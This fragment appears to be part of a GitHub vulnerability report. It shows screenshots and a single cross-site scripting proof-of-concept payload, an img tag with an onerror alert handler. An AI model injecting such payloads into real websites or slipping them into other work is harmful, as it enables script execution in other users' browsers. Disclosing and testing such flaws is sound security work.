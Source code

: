 <img width=800px src="https://user-images.githubusercontent.com/92881216/222705843-99e0b223-01f5-43b9-bb6b-6ba9fd76f0aa.png" />

> payload : `<img src=1 onerror=alert(1) />`

<img width=800px src="https://user-images.githubusercontent.com/92881216/222706100-cb202f27-13a9-4523-aaec-031e95021ee4.png" />

